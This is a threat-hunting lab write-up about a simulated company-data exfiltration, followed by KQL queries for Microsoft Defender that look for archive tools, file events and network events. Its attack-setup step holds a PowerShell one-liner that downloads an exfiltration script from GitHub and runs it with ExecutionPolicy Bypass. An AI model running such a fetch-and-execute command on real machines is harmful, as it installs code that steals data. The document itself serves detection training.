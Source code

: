 # Threat Event (Exfiltration of Company Data)
**Use of Powershell to run "Malicious" script**

## Steps the "Bad Actor" took Create Logs and IoCs:
1. Execute the following code in Powershell:
- Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1' -OutFile 'C:\programdata\exfiltratedata.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\exfiltratedata.ps1

## What this script does:
- exfiltratedata.ps1 is a PowerShell script designed to simulate data exfiltration for cybersecurity training and testing. It demonstrates how sensitive files might be collected and transmitted by an attacker. Intended for use in controlled environments only.
---

## Tables Used to Detect IoCs:
| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceProcessEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| Used for detection of archival software execution. |

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceFileEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| Used to detect the silent installation of 7zip as well as execution of exfiltratedata.ps1 powershell script.|

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceNetworkEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table|
| **Purpose**| Used to determine if any data has been exfiltrated from the network.|

---

## Related Queries:
```kql
// Look for any kind of archive activity
let archive_applications = dynamic(["winrar.exe", "7z.exe", "winzip32.exe", "peazip.exe", "Bandizip.exe", "UniExtract.exe", "POWERARC.EXE", "IZArc.exe", "AshampooZIP.exe", "FreeArc.exe"]);
let VMName = "windows-target-1";
DeviceProcessEvents
| where FileName has_any(archive_applications)
| order by Timestamp desc


// Look for any file activity, based on the Timestamp from any discovered process activity
let specificTime = datetime(2024-10-15T19:00:48.5615171Z);
let VMName = "windows-target-1";
DeviceFileEvents
| where Timestamp between ((specificTime - 1m) .. (specificTime + 1m))
| where DeviceName == VMName
| order by Timestamp desc


// Look for any network activity, based on the Timestamp from the process or file activity
let VMName = "windows-target-1";
let specificTime = datetime(2024-10-15T19:00:48.5615171Z);
DeviceNetworkEvents
| where Timestamp between ((specificTime - 2m) .. (specificTime + 2m))
| where DeviceName == VMName
| order by Timestamp desc


```

---

## Created By:
- **Author Name**: Jordan West
- **Author Contact**: https://www.linkedin.com/in/jordan-west-it/
- **Date**: April 15, 2025

## Validated By:
- **Reviewer Name**: 
- **Reviewer Contact**: 
- **Validation Date**: 

---

## Additional Notes:
- **None**

---

## Revision History:
| **Version** | **Changes**                   | **Date**         | **Modified By**   |
|-------------|-------------------------------|------------------|-------------------|
| 1.0         | Initial Draft                 |'September 6, 2024'| 'Josh Madakor' |
| 2.0         | Updated draft                 | `April 16, 2025`  | `Jordan West`   |

